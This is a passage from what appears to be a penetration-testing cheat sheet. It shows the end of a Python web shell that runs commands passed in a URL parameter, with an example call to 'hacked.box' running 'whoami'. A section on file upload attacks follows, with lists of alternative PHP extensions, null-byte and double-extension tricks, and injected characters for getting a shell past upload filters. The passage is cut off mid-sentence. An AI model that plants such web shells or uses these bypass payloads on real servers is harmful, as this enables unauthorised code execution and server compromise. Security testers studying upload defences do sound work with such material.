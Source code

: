 ```python

except KeyError:
    out = "Use <pre>?c=[command]</pre> to execute a command!"
  
except:
    out = "Unknown error"

print(out)
```

Usage: `https://hacked.box/upload/shell.py?c=whoami`


## File upload attacks

#### Pass filter with alternative PHP fileextentions

 - In case `.php` files are not allowed to be uploaded or not executed, try `.php5`, `.php7`, `.phtml`, etc.

**List of extensions**

```
.php
.php3
.php4
.php5
.php7
.php8
.pht
.phtm
.phtml
.phar
.phpt
.phps
.gif.php
.php.gif
.php%00.gif
.php\x00.gif
```

Herby exploits `.gif.php` a weak regex check of a filename and `.php.gif` a weak server configuration, which would try to execute all files with a `.php` in the filename.

The character injection (e.g. `.php\x00.gif`) try to exploit the 

```
%20
%0a
%00
%0d%0a
%0d0a
\x20
\x0a
\x00
\x0d\x0a
\x0d0a
/
.\
.
…
:
```
